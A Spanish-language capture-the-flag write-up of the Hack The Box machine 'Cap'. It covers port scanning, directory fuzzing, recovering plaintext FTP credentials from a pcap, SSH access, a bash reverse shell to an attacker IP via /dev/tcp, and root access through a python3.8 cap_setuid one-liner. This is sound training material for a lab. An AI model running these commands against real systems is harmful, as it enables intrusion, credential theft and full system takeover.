


## DESCRIPCION

En este post realizaremos el write up de la máquina Cap. Tocaremos los conceptos de fuzzing, scripting en python, análisis de paquetes .pcap, conexión por ftp, ssh y escalaremos privilegios abusando de las capabilities.


## INDICE

- [Reconocimiento de puertos](#escaneo-de-puertos)

- [Reconocimiento web](#reconocimiento-web)
  
  - [Análisis de directorios](#analisis)
  
  - [Fuzzing de directorios](#fuzz)

- [Análisis de paquetes con wireshark](#analisis-de-paquetes-con-wireshark)

- [Intrusión](#intrusion)
  
  - [FTP](#ftp)
  - [SSH](#ssh)
    - [Reverse shell interactiva](#revshell)

- [Escalada de privilegios](#escalada-de-privilegios)

- [Flags](#flags)

- [Conocimientos obtenidos](#conocimientos-obtenidos)

- [Autores y referencias](#autores-y-referencias)

## ESCANEO DE PUERTOS

Escaneamos con `nmap` los puertos abiertos en la máquina Cap:

```ruby
❯ cat Puertos
───────┬───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: Puertos
───────┼───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ # Nmap 7.92 scan initiated Mon Jul 18 03:29:01 2022 as: nmap --open -p- -T5 -oG Puertos 10.10.10.245
   2   │ Host: 10.10.10.245 ()   Status: Up
   3   │ Host: 10.10.10.245 ()   Ports: 21/open/tcp//ftp///, 22/open/tcp//ssh///, 80/open/tcp//http///
   4   │ # Nmap done at Mon Jul 18 03:29:13 2022 -- 1 IP address (1 host up) scanned in 11.99 seconds
───────┴───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
❯ Reconocimiento Puertos

{*} Extrayendo puertos...

    La direccion ip es: 10.10.10.245
    Los puertos abiertos son: 21,22,80

    Los puertos han sido copiados al portapapeles
```

<br>
Escaneamos al objetivo con los scripts predeterminados de nmap, apuntando a los puertos abiertos en busca de más información.

```ruby
Nmap -sCV -p 21,22,80 -oN Objetivos 10.10.10.245
Nmap scan report for 10.10.10.245
Host is up (0.043s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    gunicorn
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 NOT FOUND
|     Server: gunicorn
|     Date: Mon, 18 Jul 2022 01:29:52 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 232
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Mon, 18 Jul 2022 01:29:46 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 19386
|     <!DOCTYPE html>
|     <html class="no-js" lang="en">
|     <head>
|     <meta charset="utf-8">
|     <meta http-equiv="x-ua-compatible" content="ie=edge">
|     <title>Security Dashboard</title>
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <link rel="shortcut icon" type="image/png" href="/static/images/icon/favicon.ico">
|     <link rel="stylesheet" href="/static/css/bootstrap.min.css">
|     <link rel="stylesheet" href="/static/css/font-awesome.min.css">
|     <link rel="stylesheet" href="/static/css/themify-icons.css">
|     <link rel="stylesheet" href="/static/css/metisMenu.css">
|     <link rel="stylesheet" href="/static/css/owl.carousel.min.css">
|     <link rel="stylesheet" href="/static/css/slicknav.min.css">
|     <!-- amchar
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Mon, 18 Jul 2022 01:29:46 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Allow: OPTIONS, HEAD, GET
|     Content-Length: 0
|   RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
|     Content-Type: text/html
|     Content-Length: 196
|     <html>
|     <head>
|     <title>Bad Request</title>
|     </head>
|     <body>
|     <h1><p>Bad Request</p></h1>
|     Invalid HTTP Version &#x27;Invalid HTTP Version: &#x27;RTSP/1.0&#x27;&#x27;
|     </body>
|_    </html>
|_http-title: Security Dashboard
|_http-server-header: gunicorn
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port80-TCP:V=7.92%I=7%D=7/18%Time=62D4B789%P=x86_64-pc-linux-gnu%r(GetR
SF:equest,2A0C,"HTTP/1\.0\x20200\x20OK\r\nServer:\x20gunicorn\r\nDate:\x20
SF:Mon,\x2018\x20Jul\x202022\x2001:29:46\x20GMT\r\nConnection:\x20close\r\
SF:nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x20193
SF:86\r\n\r\n<!DOCTYPE\x20html>\n<html\x20class=\"no-js\"\x20lang=\"en\">\
SF:n\n<head>\n\x20\x20\x20\x20<meta\x20charset=\"utf-8\">\n\x20\x20\x20\x2
SF:0<meta\x20http-equiv=\"x-ua-compatible\"\x20content=\"ie=edge\">\n\x20\
SF:x20\x20\x20<title>Security\x20Dashboard</title>\n\x20\x20\x20\x20<meta\
SF:x20name=\"viewport\"\x20content=\"width=device-width,\x20initial-scale=
SF:1\">\n\x20\x20\x20\x20<link\x20rel=\"shortcut\x20icon\"\x20type=\"image
SF:/png\"\x20href=\"/static/images/icon/favicon\.ico\">\n\x20\x20\x20\x20<
SF:link\x20rel=\"stylesheet\"\x20href=\"/static/css/bootstrap\.min\.css\">
SF:\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"/static/css/fon
SF:t-awesome\.min\.css\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20
SF:href=\"/static/css/themify-icons\.css\">\n\x20\x20\x20\x20<link\x20rel=
SF:\"stylesheet\"\x20href=\"/static/css/metisMenu\.css\">\n\x20\x20\x20\x2
SF:0<link\x20rel=\"stylesheet\"\x20href=\"/static/css/owl\.carousel\.min\.
SF:css\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"/static/c
SF:ss/slicknav\.min\.css\">\n\x20\x20\x20\x20<!--\x20amchar")%r(HTTPOption
SF:s,B3,"HTTP/1\.0\x20200\x20OK\r\nServer:\x20gunicorn\r\nDate:\x20Mon,\x2
SF:018\x20Jul\x202022\x2001:29:46\x20GMT\r\nConnection:\x20close\r\nConten
SF:t-Type:\x20text/html;\x20charset=utf-8\r\nAllow:\x20OPTIONS,\x20HEAD,\x
SF:20GET\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequest,121,"HTTP/1\.1\x2
SF:0400\x20Bad\x20Request\r\nConnection:\x20close\r\nContent-Type:\x20text
SF:/html\r\nContent-Length:\x20196\r\n\r\n<html>\n\x20\x20<head>\n\x20\x20
SF:\x20\x20<title>Bad\x20Request</title>\n\x20\x20</head>\n\x20\x20<body>\
SF:n\x20\x20\x20\x20<h1><p>Bad\x20Request</p></h1>\n\x20\x20\x20\x20Invali
SF:d\x20HTTP\x20Version\x20&#x27;Invalid\x20HTTP\x20Version:\x20&#x27;RTSP
SF:/1\.0&#x27;&#x27;\n\x20\x20</body>\n</html>\n")%r(FourOhFourRequest,189
SF:,"HTTP/1\.0\x20404\x20NOT\x20FOUND\r\nServer:\x20gunicorn\r\nDate:\x20M
SF:on,\x2018\x20Jul\x202022\x2001:29:52\x20GMT\r\nConnection:\x20close\r\n
SF:Content-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x20232\
SF:r\n\r\n<!DOCTYPE\x20HTML\x20PUBLIC\x20\"-//W3C//DTD\x20HTML\x203\.2\x20
SF:Final//EN\">\n<title>404\x20Not\x20Found</title>\n<h1>Not\x20Found</h1>
SF:\n<p>The\x20requested\x20URL\x20was\x20not\x20found\x20on\x20the\x20ser
SF:ver\.\x20If\x20you\x20entered\x20the\x20URL\x20manually\x20please\x20ch
SF:eck\x20your\x20spelling\x20and\x20try\x20again\.</p>\n");
```

Como podemos observar la máquina víctima dispone de diferentes servicios expuestos a la red: `ftp`,  `ssh` y `http`. Por ahora nos centraremos en el servidor web `http`.


## RECONOCIMIENTO WEB


Al conectarnos a la web vemos lo siguiente:



En este momento ya podríamos enumerar un posible usuario `Nathan`.


<h3 style="text-align:center" id="analisis">ENUMERACION DE DIRECTORIOS</h3>
<hr>

Investigando las diferentes funciones de la web podemos destacar el siguiente contenido:

- El directorio `/ip` nos muestra el output del comando `ifconfig`, ejecutado en el servidor.

- El directorio `/netstat` Nos muestra el output del comando `netstat`, ejecutado en el  servidor.

- El directorio `/data/*` nos muestra diferentes paquetes `.pcap` que varían cada vez que recargamos la página.


<h3 style="text-align:center" id="fuzz">FUZZING</h3>
<hr>

Para encontrar todos los paquetes haremos fuzzing al directorio:


1 - Nos crearemos un script en python el cual nos automatizará la escritura de un diccionario con los números del `0-10000`.

```python
with open("diccionario_numeros.txt", "w") as o: # Abrimos o creamos el archivo diccionario_numeros.txt con permisos de escritura.
        for i in range(10000): # Bucle que recorre del 0 al 10000.
                o.write(str(i)) # Escribimos el número almacenado en la variable i.
                o.write('\n')   # Agreagos un enter por cada inserción.
```

<br>

2 - Ejecutamos el script y se nos creará el diccionario `diccionario_numeros.txt`:

```bash
python3 number_wordlist.py
❯ ls
diccionario_numeros.txt
```

<br>

3 - Hacemos fuzzing con `wfuzz` ocultando las respuestas con código `404 y 302`.

```bash
❯ wfuzz -c --hc 404,302 -t 400 -u http://10.10.10.245/data/FUZZ -w  ../scripts/diccionario_numeros.txt
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.245/data/FUZZ
Total requests: 10000

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                       
=====================================================================

000000005:   200        370 L    993 W      17143 Ch    "4"                                                                                                                                           
000000002:   200        370 L    993 W      17143 Ch    "1"                                                                                                                                           
000000001:   200        370 L    993 W      17146 Ch    "0"                                                                                                                                           
000000003:   200        370 L    993 W      17146 Ch    "2"                                                                                                                                           
000000004:   200        370 L    993 W      17143 Ch    "3"                                                                                                                                           

```

 Como vemos solo existen las rutas del `0-4`.

## ANALISIS DE PAQUETES CON WIRESHARK

1 - Nos descargamos el paquete ubicado en `/data/o` con `wget`:

```bash
❯ wget -O paquete.pcap "http://10.10.10.245/download/0"
--2022-09-11 19:12:20--  http://10.10.10.245/download/0
Conectando con 10.10.10.245:80... conectado.
Petición HTTP enviada, esperando respuesta... 200 OK
Longitud: 9935 (9,7K) [application/vnd.tcpdump.pcap]
Grabando a: «paquete.pcap»

paquete.pcap                                        100%[==================================================================================================================>]   9,70K  --.-KB/s    en 0,03s   

2022-09-11 19:12:20 (350 KB/s) - «paquete.pcap» guardado [9935/9935]
```

<br>

2 - Abrimos el archivo con `wireshark` y filtramos por `ftp`.




Como vemos en el archivo `.pcap` se han registrado las credenciales `nathan:Buck3tH4TF0RM3!` al loguearse por FTP, ya que este no posee cifrado de ningún tipo.


## INTRUSION

<br>

<h3 style="text-align:center" id="ftp">FTP</h3>
<hr>


Usando las credenciales `nathan:Buck3tH4TF0RM3!` accedemos por ftp:

```bash
❯ ftp 10.10.10.245
Connected to 10.10.10.245.
220 (vsFTPd 3.0.3)
Name (10.10.10.245:void4m0n): nathan 
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
```

Tenemos acceso a archivos interesantes, en este momento ya podemos visualizar la flag `user.txt`, pero al estar en `ftp` nos vemos limitados.

 

<h3 style="text-align:center" id="ssh">SSH</h3>
<hr>

Vamos a probar a conectarnos por `ssh` con las mismas credenciales:

```bash
❯ ssh nathan@10.10.10.245
nathan@10.10.10.245's password: 
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun Sep 11 19:09:37 UTC 2022

  System load:           0.0
  Usage of /:            37.2% of 8.73GB
  Memory usage:          23%
  Swap usage:            0%
  Processes:             227
  Users logged in:       0
  IPv4 address for eth0: 10.10.10.245
  IPv6 address for eth0: dead:beef::250:56ff:feb9:ebb8

  => There are 4 zombie processes.


63 updates can be applied immediately.
42 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Thu May 27 11:21:27 2021 from 10.10.14.7
nathan@cap:~$
```

Perfecto estamos en la máquina como el usuario `nathan`.

<br>

<h3 style="text-align:center" id="revshell">REVERSE SHELL INTERACTIVA</h3>
<hr>

Para cambiar de `ssh` a una shell totalmente interactiva hacemos lo siguiente:

1 - Nos ponemos por escucha en el puerto que vayamos a usar para entablar la conexión:

```bash
❯ nc -lvnp 1234
listening on [any] 1234 ...
```

<br>

2 - Desde ssh nos enviamos una reverse shell:

```bash
nathan@cap:~$ bash -c "bash -i >& /dev/tcp/10.10.16.6/1234 0>&1"
```

<br>

3 - Recibimos la conexión:

```bash
❯ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.16.6] from (UNKNOWN) [10.10.10.245] 54710
nathan@cap:~$ whoami
nathan
```

<br>

4 - Reiniciamos la shell con la siguiente sucesión de comandos:

```bash
nathan@cap:~$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
nathan@cap:~$ ^Z    
[1]  + 8520 suspended  nc -lvnp 1234
❯ stty raw -echo;fg
[1]  + 8520 continued  nc -lvnp 1234
                                    reset xterm
nathan@cap:~$ export TERM=xterm
nathan@cap:~$ export SHELL=/bin/bash
```

En este momento ya disponemos de una shell totalmente interactiva.


## ESCALADA DE PRIVILEGIOS

A la hora de escalar privilegios el nombre de la máquina `cap` nos puede dar una pequeña pista. Eso es,  <a href="https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/)" target="_blank">Capabilities</a>.

Para buscar las capabilities del sistema utilizamos el siguiente comando:

```bash
nathan@cap:~$ getcap / -r 2>/dev/null
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```

Viendo el output  `python3.8 = cap_setuid`, debemos saber que podemos realizar una escalada de privilegios, para ello nos dirigimos a  <a href="https://gtfobins.github.io/gtfobins/python/#capabilities" target="_blank">GTFOBINS</a>.

Utilizamos el comando dado, el cual llama a una shell como `uid=0` es decir `root`:

```python
nathan@cap:~$ python3.8 -c 'import os; os.setuid(0); os.system("/bin/sh")'
# whoami
root
```

¡Somos root!

## FLAGS

<h3>User.txt</h3>

```bash
# pwd
/home/nathan
# cat user.txt
d62bxxxxxxxxxxxxxxxxxxxxxxxxxxxx
```

<h3>Root.txt</h3>

```bash
# pwd
/root
# cat root.txt
8143xxxxxxxxxxxxxxxxxxxxxxxxxxxx
```

## CONOCIMIENTOS OBTENIDOS

De la máquina <em>Cap</em> podemos extraer los siguientes conocimientos:

- Enumeración de puertos abiertos con `nmap`.

- Creación de diccionario con python.

- Análisis de archivos `.pcap` con `Wireshark`.

- Mejorar shell a una TTY interactiva.

- Escalada de privilegios abusando de capabilities.

## AUTORES y REFERENCIAS

Autor del write up: Luis Miranda Sierra (Void4m0n) <a href="https://app.hackthebox.com/profile/1104062" target="_blank">HTB</a>. Si queréis contactarme por cualquier motivo lo podéis hacer a través 
de <a href="https://twitter.com/Void4m0n" target="_blank">Twitter</a>.

Autor de la máquina:  <em>InfoSecJack</em>, muchas gracias por la creación de Cap aportando a la comunidad. <a href="https://app.hackthebox.com/users/52045" target="_blank">HTB</a>.
